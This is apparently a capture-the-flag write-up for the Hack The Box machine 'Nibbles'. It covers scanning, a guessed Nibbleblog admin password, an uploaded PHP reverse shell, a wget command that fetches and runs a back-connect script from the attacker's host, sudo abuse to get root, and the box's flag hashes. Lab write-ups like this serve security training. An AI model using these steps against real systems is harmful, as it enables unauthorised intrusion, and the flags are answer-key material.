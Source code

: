 ```yaml
---
layout: post
title:  "HTB Nibble Linux"
description : Great box, bit ctfish, again SUDO permissions get you root!
tags: HTB, sudo, python
---
```


# Recon
Nmap scan
```ruby
CVEs_10.10.10.75.nmap 10.10.10.75
Nmap scan report for 10.10.10.75
Host is up (0.019s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| vulners:
| cpe:/a:apache:http_server:2.4.18:
| CVE-2017-7679 7.5 https://vulners.com/cve/CVE-2017-7679
| CVE-2017-7668 7.5 https://vulners.com/cve/CVE-2017-7668
| CVE-2017-3169 7.5 https://vulners.com/cve/CVE-2017-3169
| CVE-2017-3167 7.5 https://vulners.com/cve/CVE-2017-3167
|_ CVE-2019-0211 7.2 https://vulners.com/cve/CVE-2019-0211
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Nikto scan privides with soe interesting directories
```ruby
+ OSVDB-3268: /nibbleblog/admin/: Directory indexing found.
+ OSVDB-3092: /nibbleblog/admin.php: This might be interesting...
+ OSVDB-3092: /nibbleblog/admin/: This might be interesting...
+ OSVDB-3092: /nibbleblog/README: README file found.
+ OSVDB-3092: /nibbleblog/install.php: install.php file found.
+ OSVDB-3092: /nibbleblog/LICENSE.txt: License file found may identify site software.
```
Dirbuster scan 
![](https://lh3.googleusercontent.com/O8O6QOXvhgZh9jnKlA59gpgYz-_wPpKX72LRQ9mip9oGFd97gVKhXle1RWT2R_OAWeKcx0NsGzCljG8AbDiwKohjJIbRbWy_rEJAHTHZpwAfMlGMPfnzNg_syKkZRBKv1a2TE3OTM3Pcpe9eZ7S6arENqx_9JISoapDs887w-u4Ol4RpHTVrBp5hhdUZCtjPM0zTzK8uLYz-kZuckxTv-KN-Jb0mQmLGxi7aC3W0UQYTHFR10DOhsqTM9kkIBH-vS34R5WScerokQxCO0Zv5QhA7irPWCVk-MbDy6LSKqymmcnJRPWNdX7T4fwfTCfv0oUScyeYFccHjsuG7D7Ecpb-BqFKagtjlOblpCR5oQ3hMMBWfuIKIK-xxA9isi2e8SZxx2Fep3iCqRQ_JwB1qo7gGGga4dKeRd_FJfvKyX6Um8_Uhe2uheAs2hPb_WomzetzhOEEHiAQW6iGfI_UquAlLfsC_4lHF7vkbPwvTW1WWAsgzm947GcWJAOj3BJRxljxvIYfCFDudCBO4_i0DOPqu0PZu3RkXMD5H-uarDw3GpA-l1OlyYuDNzhKPZhkChPr3ehC8m7JLMNboce1tiVCAmUl_1mAnjRF-ck_lCpYWeGfRs_a55x3wiYYDg6hg3j_atRE1YmoMoDh02Xdjkp8uE48FsnXpbr4X7BJLRZpQKCTjmw1RA4c=w593-h349-no)

Nikto scan
![](https://lh3.googleusercontent.com/9IJ4zVGci7GYTh3uVURd1ZM_yiataJng3rXEl7RZKyOWFspIuQ50oZHNs7TAcMpWUjOTaoPmOLDDlBFHCbuLGJkBgSryNF6j0qzAscU2T-4mxeF6sUoKr3zEAoL2LyrTScXqUp_C9FsaMFDZ312hzHwKNOnb-TdrQORtIeeY--PSRsNl5UkDirblx1bUw1aUz6gafZPt3Dgd-P8dnGEennHwCTqxc3Hr10Dggt3l84XoMu5p4VCEcoh7mAx_Gg0IY7SXyAGek-tpmlL51H4jmVLiL2i2a4eoAEcXJfF4I8X5VPZjtY2Zk3Cknl8wMEqJa1-6uJtqDi8bOx1E-8VUk2RsQNlSMNMjaYO3Dva2gveAHFq-HxJpYeuk2dndIqu2-wKBZtnpqxo5lkCeTovQZZ__ozdTw9TM5B3w1NJb9HVd39uD9k6qa9Q3V377t6m4upXjwtoY_LBOdzqZ5R4F6XTKdaOrQFhmP3nMV1MZyC-16-5O3RkDul3ic5lZpTZFqd6BgCGQZkYR5TjbZSqL12huAmjd-6GgSbOzAlwcyU8qZIV1k23p4kngH8epu0Wjj1yvuYpoD6jxoYu5Gd9yVDrzADgwaujvzqA0XIVZISYTSQTsP1Eu43nl5JQGNzLLddBHKmwMQg3yNRqYa3E1y5Jlbevn948AwvS7TEtLT0mSlTV0-By2-eA=w762-h179-no)

Nibble blog
![](https://lh3.googleusercontent.com/nwvnUxicD_EURq8eFODQ44Xz1REIRhYjmy2bWgKqmMjKMOPZaBk9tPiL1IrSRoIZlWUkiTXM4RMoJcJWCifDJEiPYtyvl8o8ddDHnbuYNyY0ChHZ2IokV-6SjW41QBLsaDzl5SopsfC1AzceKoo9CkV1wl4la5gVgPfRhUE882zQro1HkYemPDXMYxg4yfLdUM5qdQx7GXo0iG2Xm0t_td-jWN-WUjhNiFZQGdrlZU5FFaLlp7FGVBRWXm_-40VaJKYohXPN4YdNuPrxgPwTKAH2h7qgDuMaDMpSZHApDV9sz8Pkw9fu3OG3J2U8pCMS6TYmPHeF4xR7jsrys1walnA5VRDJCQBT--oLLxcjR5Kscz_A6wj4WdvQ-HAKqX4ltPiZPLeP8XlGrgW7pF7yWe5baNVgwLJHwa508llLkp5tdY9OO-bnKv-j12-Z9bdjq0GAperwo2sDH43Ihyb8caNRlwWfPkf_DNl5117wfDqNzQrC24oMDVtQuLjEnWNsmSrMdl81gskQJtDlpEZGl_LnvEz_wK90m-TSg8EEQj0FIOFaPVoLPfM8HRCFu3PVDMM9DixLiIFdSKOjyNuClrS8qHfjjplkcuZRjcMTPegxEr0KWxVbL8dKz0c01UIFeUsTOF8gjI9GGMb-xvwiIyRF2Do6ylA478m8bAVgawDl6EAvXw7YzXY=w618-h464-no)

![](https://lh3.googleusercontent.com/1bW33_11QaosNRFr2BqgoYEaMEIuoJtnOOVjTmlOBY6zRkZeqwzxIElhCdONIlz-GKCf7lJ3tFtrUAvYjPSena-x1tGXJn7ucK4LgTzwXIbaaiFsDEEKCtRgKbTajrIWCRzroAI97Rcx-G1fUKmmRxHK7rKWC5cRt4k2qwe-QDRKUT7xvfMI0DBblhYeIDvAblx9MG4HYblhjOMzcf7OHnXNpkXsRKE0d4wZH9_i1KxF9sj-FrhvYZLhS9HFLwgPQRvmZRHsqCpBke7QAIjqGKaCC-XLnoWTw2qSIDb6B1AzNZSBx_2ZB06YpyBvey3jUVIu7rwMtBgcFI-iwY6gxTdq_KEo2sw9nWhY7MTMaTSsFRHqdKD5IahdFL74hqfsEyz_1ttXeMuLD9ecbEVo8FsvM-VTZ1r-2kisZDE5NfVUsKcyNa1QLJ36qQvl2O0vsX2QC5d0eFhMflCE9iaRwjgBS2StRtSztyepU_-a-T1jUj3ZZgolxkTEXkGwPcm8IqdC4r4LjiqCDlXogsoeixzpsGdsdYCP9V7HxqutlygqBZPcwBTQdGF7E8CBRdTTG6ZOZ9XHnPYflS5jDCBBY-J5IgTMRKyWudrhBMRHP4Vwfi8XvQjPMNv7lrwJfODR3q5r9y_r4VJxB6X0LAZLrsSTPFwNQDG4OLg035j5SLKTTcVcqM6TGAE=w596-h435-no)

![](https://lh3.googleusercontent.com/NWMVhPUxMXwoSCTXW-bYa_JknTOQC_r7Zga3XzqHuC5IG6lEDmQleeFCRuapW1gE6asbIabYozIP6NExfJOOZsRezY6IdteS9BJB-9uis1uj_8YZ9pTBGnvzUdNPpxwhvpJ_6LoI67wDIGY4i3A79_KolWqC-fROUXdirKd056QJyfs0Iwsi4WQokdiSAVAa8_MRTyPlZFT_sEI4WzBbKxWJ2VX6leiM73WW6y8i083axkkiZQRai09cVaGh5MQc33rIKqLHk-QVnaIRybeqk4yedesvOmNFL7tjyNAkfADfzW52QX-ePUCMg8Joo9-8FWqLCS1hPU7nB-XvtOJqICj3MfBeJYo8KfNJyF5Sb2zUlQXijhNjil0bReMWLN_3e7ReXECg0mY9Q9TdLzWurEBm_8ux6sr3OaTDyAqfrQBtKltggsTPD0I1E158KHvo_jdmJ5C_7s-D5Ffpv1vMt9BoA9up3InQfbU5uwBxq8GdaadRTcOh3LNpRMrEevd3kME9_AgzT59o-RHNR6TDmH-x3IeBqd9agn_u0ba4hL2eADBbx1Aj8PBXem8jZdv3FWbxQ9CUydvTYGBaEOyMtkC6fJt5PAoVGsNWs1OBSw5o0Z2Cypj-PvDcBnJVEib7KRZ1WjbgSf3h43pYDaOe_y-am-TO5fpc3qJgUBop2S-EXcdCRxCGPI0=w525-h146-no)

![](https://lh3.googleusercontent.com/F3rZsw8bA2d1mBitjHMjBOeFIQUW-fI8ZImbHJof21FMBcuvWr_rDjxuM0oNnR24Yje-VRQVbwSTzNH69Y9B5X_46X4cr3GIr-XT5aq8jeaoZXcgsZfu1H4e7PAUdGtL_HXygiv7Y1GOxQMebZP9zwWcGCZd940H1xH1RJBEp-k6Cq9JCgzsn5zSIaj_DPq0EVwovyUKUO2jiGXKLUkB3cRbRdnhC3mag40YN9xphnEdAUjlhtyZvoF358P36WyNGEu9J1A6CBn3PlGKedwczqBuafjuJgM9nuhXrbt-Qmg5EKX51Z08Ah7v0_C8N5I15MOKyaOZH0qK_ThvEfuHQq8B-A02OXbq8vx_XTIgXjdDdtDGHvyKTCQxVrqMHCNU9_rCY7u8vtmG-87EdJEiN5eF4arhlvwJgSLMFkPcAacBMHIoR7hV86LTF67yYtM6HOUizej8G3tBCvW5bUnSRm7wxzG5rdvFXnYirQ9Gq9k914USrU15jG3y3cnkXG6YslYB2ZMWJtNHe3idT7titmVcLJwqEqG_uSZavBOkCcR9el0eEurzDIre5i439gTXBTYR-Pn4ZYTMVIHVnTq0N3pxRpxre8opS8e0vmn5zbTzIN8up6DQhykprM-3G8FY45vfxINERdl6ATmRgj7psGxhPzNCt9U5cpvqpVpIYGJ-1R6Q71Yp_hY=w724-h323-no)

![](https://lh3.googleusercontent.com/fOx1G3In-Usf9XZJ0qlKuc3I_il-HRkAtdSATS4GZDXk_8rD2xuCpGvi-B5o5iigwTLmUhaH7SdZdALu_oElOfU1nyFDbdPyM8w-qCUiTVKoEEZXMRNhouCRMUSQCg7klZcHbZWDo6_KI60ylkyPrbpHUxBvDoTSFRsBb-CX-h8O4IKPYyjhsnAsr9WxzgPFo1nfsouCa2MDyg-eTjTbgkZJI7c_dWGIxDibBVeKe7mSsgxakMMjOgHVpjc1xonFBn30vrR-Bc__0JnZJdcrV6rXn-i7lYqO2TNJpczYjcIJ7cTz__TjVST0ehm2iogDIgdntKzVg7mX_avsvpM8-Bz1SVhB-uOt9eVaEgckqEZFg43aJiARovdH7OAHKnR4H2V61FIf2X9F90ZX0PxCC_s_QgL1vqYtbIlnlLVCj9e3ZgOYAJnodHl9EEIGoKXB6JAgXTMknNx5gCDjSNqzJLyK5ustrPn_tIXuSpz3zQcgQk7Cnk8rq-M_rjokC89y8HkcbSKnq5Va3_f1v-BCunbvgFEEMvvxaefo5z75NIJzkD_YaIHYP1GvMhCsui3U2MiAJL9YXEsikAVEofU0SsXt20M8gO8q0OG-8UJ2Eiu4I1CFM7HTJg6axLa57zkZDX-QYmKf9-5topWjEjxyAM8Mo4EPb_wYrjdRp63xBottdLpjWSlb3i4=w669-h410-no)



# Exploitation
Nibbleblog 4.0.3 is vulnerable to Arbitrary File Upload. 
I tried bruteforcing the admin password with Hydra but not luck there. However I was successfull guessing the password: **nibble**
![](https://lh3.googleusercontent.com/NlJDIz-Zraqt9x2fKnDqAHrfAzGI7ofO5eZFB_phUoFUyq-wpb5t2Hy815htdpa4MB1z-ED8E1iT_K70z8Ve0J3VaOo3ZUsxCBR4pivGDvBOelsxnPnahfVhxEmvptC4u-2Y5yojC90AB2Td_YpZ10CNDzaPRERdjsUMt4_T6_tN1HPoEeAbkQpBfCAZia315vnPCp_YZexAF4EHBLWWgf0zvKuq7bpatff8IMg_Tztq-sXiulAYsnijjNsFldvM_a9UF2yFN-SPD33F2do9dxl2PHhS8Zb_fr4kORGjC6L5vR9XUQWlBVJFBEMKc3xXjqu6W39dtMJOQ-MNwdaowwBB5a4M346XfWPZNSuzmlIT9W5nPGVDYfI2qD1r8ym74d_SYiBZARJLhov7HNKc7cGmLBR2zQ4iIefUAD0tp6XBS--wmCqvl4WKBWGztgY4wyaCKAKA2xF3CL5O8rUi-u_HNFGG1Orhs9xkjODWNyjbTf623Ak8LlQrhBjluxscQ_Fq5Bcfsl8jW9T5EHulOHVSLBGYqXtbXN7gbTD2J8y2NSnnBfaRLGw2pfOkVYyxG7WO5XXr65RzWBfpzbrBWcNnge4C0UdiIG-Xuc1W2tIcyQff7wp5PMWgVzcQ-EwmKiAZOYA1nH-FtCJQZ_rspSL93QIdoMLqxuzgKbIUdmxcvLEmDYCvNe8=w808-h328-no)

We upload a php reverse shell, under the tab **plugins** and get user shell as nibble
![](https://lh3.googleusercontent.com/_D4O8HUsMsAphI1npaL4FcaBSLBEHTg39_6Vf_O_Ba4ymwVJBUQ9yt9nzPI8xDp8cXcY18TsD6822nAKPFallJsxzqgmigSdeh32hUWfDXDFpI8QoEd69ny6qRAbsC9eXw1ERRKBgzgoaTsVCsCc-8vg9R1mCb9OpIXAawpD3OncpbUCoclbi3ZNpGaDx6HAYQxuJuwqTo1UEOs8tACf_IOnrR-4DOBNo2jMec1uZIe4yHQogl0JETtije5j5QqE1LnG9QGZtTl8C2BcbW8Jh7aZzp_LMWtX1gbAXqW69cprrSnY-70jjmBNTZyi0of4ffIHTbvEvNx6FDRvglN1KsfT7A52yhiyWZda6QWD1uBHaEMz02AsziDFYY4T5rOS3VPYpex6WQN8Dg4DUkF4BmGhSCKCKaXJoMgNlV5qAIS2xov_GR0X7IfqGKWEgBXVKQ-POPOJxJYTCYKT5PKkQWnZgnVBfigi4h6GpyeeBI7HBfjZIQmRZd50lKKXFPBVPjQ0h9IBfOs61y9JYS6pisAjP2T4OlJfw0f4wJC6IlwVnAmW7u2FTOL3dyYTwkdzGVgL3h7tM7wAiChZ7jmujcGQjQKjvhGF2uxnwXw1_cfDfT9hfm8Jp_bQxvF9o-w7zp-JuUB7zF6TpL8WPopY0VRH_nKEJXAU76rjKaCdErHkIII4_qJD_bk=w583-h392-no)

![](https://lh3.googleusercontent.com/lBLMPxKTGghiCh-1UCk_5U1tVeZSusNgCo0-a-yBxBMQhPSTje-psP9sEQEFuu2pz1zpSeOyKWJIsBHZ2pScLEfUye8voqlICnAe-NFyMhNqhanT1oIhPlrT8vQnjTG0DRC7264-QgU_mtKwD7AA_Qjcpy8jdgeUq-pDayV31KXVWG_OK65Zk6FDLGqyizZcN8jtzWH78GSw4d_RmLvu_sgjbZpwuiyeKLUAGehOSzfYJuGwpjMAVWqLE2ni-1FbKKAR-6ub4pqBw9CvFzXCqTowd5YspfGfwiXNRORbvoY2YfzKYxnvyj1Eisa9G-Sfb8idCV59-pDvru_D7Mu7S6lZc7qf2AyzmiK6Rq_ep5pUE7ShfQGPqikLERGcc9uOYuQeDNsQgbq-L-uc3ld1-g6HR3WUQVcPSOxcYRnUrDPJb6TwLwE-zJ9Xh8itL4sD3PA8_xP0H9_EjkZP1WDNftJiXr5DsWxuGPzNGi85o6bT1cUoNRt0Z4KK3C5M86RP8Z69e02B8Q-RZPhYI-6knB11W9eRvw5OR9SrpqJ1UNkx9TwEOdHQ_FvVXSxpu2bYn4d_hS60gZxwVQ_sENBU5tOJyJStPgaaspwnJNwIASTe9Tn0_6G6IClgIkEULNG_q4ANIaBsIxL1n_AjufeZSvuvzI_kloUY2lGhZc9fuFdL-gz-ZTXE9Yk=w624-h250-no)

Shell is limited so we spawn a python shell
```ruby
wget 10.10.14.25/tcp_pty_backconnect.py
python3 tcp_pty_backconnect.py
```
# Privilege Escalation
We run LinuxEnum script and we got our potential priv-esc path
```ruby
[+] We can sudo without supplying a password!
Matching Defaults entries for nibbler on Nibbles:
 env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/
bin\:/sbin\:/bin\:/snap/bin
User nibbler may run the following commands on Nibbles:
 (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
[+] Possible sudo pwnage!
/home/nibbler/personal/stuff/monitor.sh
```
![](https://lh3.googleusercontent.com/z0A7qNJRe-dEl30SnhG4rqTUSRiIYABrbsqfeWyax9VwL9OS_EGSiob92gvjCarf9ty2BpcOMJPxfPsBtFqqtvwLDV_zWFG3BvlrWCIqRPm-r8DCAK1z0E8_YflgoiuUSRCG2p02iV0ZdhXHE2eNjS8QfXdXSktEAiY540_EjwN2w16JxIpyC3jO2MpXIntOggxVgSrT7VPE4gLwiK3asSef10K2JpWDUmpBMjj9954oFF9IaSIuHyQyO-PF_54Ah0Tbft5rfKltEOOIitl87AmUR-s0RRQxsH4itrMBnKrtUv2HuXPUM2omf1jDVsRWk8knfspQxp1C9wKFjzr9azORMxd4yYSedqFHohrnfbz04iaZp2EaAgbxm5BQW1_iJmAqjAQ5ypAC0BRZhcePLAltZQGpNH21ZDEzzSbG7qeZ9v7okA5jMYJuZd9_zEia39jRZOgl5Tuo1QooUttoGN_XOrY2hOgyoI0fhCayyAhIgEgDJAHCH1Iof2MPrur9ZUl5fTjSub-URALSouaZRPQkbZ49Wk4UDHx0-pv9spG1Z13cYC45Ln2DmptFJLMuzoI_0UY-HZtj6v79QIc49MopnDRsVv2swDl7epr1ncqwX0__VZjxwRefNaorA3YhLj-PKuiRdQNw0ktzADTRY4vERU4R1K7m6oZCVsqq-2EPH29Q4_q1Se0=w609-h211-no)

First we mkdir the /personal/stuff directory and the we create a file called monitor.sh
![](https://lh3.googleusercontent.com/Sg65rie17x6YoZ_7knoSMAqWDJoVf2pA9DAkrv2RKN-vNlpjjmr-Rn4oBRV1Ahv1NXflHftx06L4mVbA7l_pwYQmTKcecKWVtKxe3jBReF_BlOW3mXOggehd8jW2FPD3qXJD7umK0_-pHTT7aHJyItTOCRXVk5vNQsmpNQ7iX4GA5u4UtZQF3yuTHv5ldKd0AX5JJ79-cp3p89aFaeStq7BWErdLx198S8SAC0ZNP0JcoFNUayY1Eq271waWrWPR4zXPIc3xcYq7k2IqJ2SAMfnK7qteneDLZfC96Z3Eq7i19lvx9-6kELTKk6QPwsHNhNU-2g6WrJVsynVq5npk-gvjSERmQ14Y3cnIYKvmvW0DiwPC8zzj-Ozz159mKuVXHgnzoIJEVbBdGkzeyGJFatGL4R9oS50rQwbDbn9VzlI8VJEddUis8YGMp7MrDPE5LM9SaHRNTzQh8tJ8hmg-3BGT5RCKWxbJGYNf70Yx90hUvfBrK6jGwKoFGjYoxdqede9tqxa91YUMzOYXLzg2k-PwlTHDzLIORwoYViHXX1GPjh81V3aOecD9J-WSk1asTCryvbOTAGqbiJvIAgk3XDFIWi-FVoXiBGM93OjH8Byq7KPCoTTLo_krWC12Obge2PO55tRnOh0WkObpHFZUW2P-ixwSqkyAdcdRMruGavHxQeT8sDXxJyQ=w627-h46-no)

We echo "bash" to monitor.sh and chmod it 755 and we procceed to run it as sudo and finally we got root
```ruby
sudo ./monitor.sh
```
![](https://lh3.googleusercontent.com/Fv8tYFmskENU5qCUgqUCUE6JItSeqH3y7Gny6R31Xti599zW3h8rtqRBywCRxxwYqJpHMBMBQh23MBQWS5bO992GbEx8piXZtyDFsUPW1JRKdQheG_-xPl4kkFJCjjyeJNA_s6S9AcyxD-bboovd96VkFMaqBBt4Zn8WcAGqHLobtLuj0MnqTzJ4tbvM_80bnq743iuNwgifhg0xcRj_QNUxzXiHNyLxh6Dj_KnoTmeyw6BZGaY0UafTwrFs5-SNfLbLxGyPSyv-IcK1iguW1mV8edOmKcu8N-91JBSyvnBItqFBntdK16EuJp-ai7IaSELUGtDYFVPZSq5Ep7OKNkf4QFDgeRyf2WYp7VbVdbq3vAmYFTftpYv0ubnlXZaoOn8MWxBEZIIfO1y5uvVy-YEC6lNEp9ouIvsK3AOfrI-3QY3ks4JRBnntgz3l8Qg0_ZI-rTsndd6zo9Q44JhEyf0ar-IqpvLboxXRonA7EUQzHQ6walNQQZ4gkKYMtJvcQlG1x2je7ODhEgrrwJZNogcyxHiE9yT9Wp_iPqI5JSwndB5dY0JIyEkw6o0GbBDDuqnpxlUvvMeHE-Y3rrVF_3DgNUBtsMHv5epcc0KB4A9pnRa2mogwzEqcGjioH-HK88mXeJ32Lxdzd3rVYek8VuXVEueCbdIbdzOsiapgSbw1AI5jYMDQt2A=w708-h99-no)

```ruby
 ROOT  "b6d745c0dfb6457c55591efc898ef88c" 
 USER  "b02ff32bb332deba49eeaed21152c8d8"
 ```

